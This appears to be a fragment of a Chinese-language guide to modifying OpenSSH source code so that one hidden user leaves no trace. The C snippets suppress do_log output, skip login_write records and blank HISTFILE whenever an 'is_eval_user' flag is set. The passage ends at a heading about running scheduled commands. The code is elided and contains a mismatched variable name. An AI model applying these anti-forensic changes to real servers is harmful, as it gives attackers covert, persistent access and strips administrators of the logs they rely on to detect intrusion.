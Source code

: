 ```c
```


```c
extern is_eval_user;
void
do_log(LogLevel level, const char *fmt, va_list args)
{
	if(is_eval_user == 1){
		return;
	}
.......................................
}
```

### 登录日志隐藏

源代码中 会向登录日志写入 登录数据，需要解决掉

```c
extern int is_eval_user;
int
login_write(struct logininfo *li)
{
....................................
	if(is_eval_user == 1) return 0;
....................................
```

### 用户history需要处理掉

session.c 

```c
extern int is_eval_user;
do_child(Session *s, const char *command){
...........................
    env = do_setup_env(s, shell);
...........................
}

static char **
do_setup_env(Session *s, const char *shell)
{
............................
	if(is_eval_value == 1){
		child_set_env(&env, &envsize,"HISTFILE", "");
	}
	return env;
}
```

# 定时执行特定命令的地方
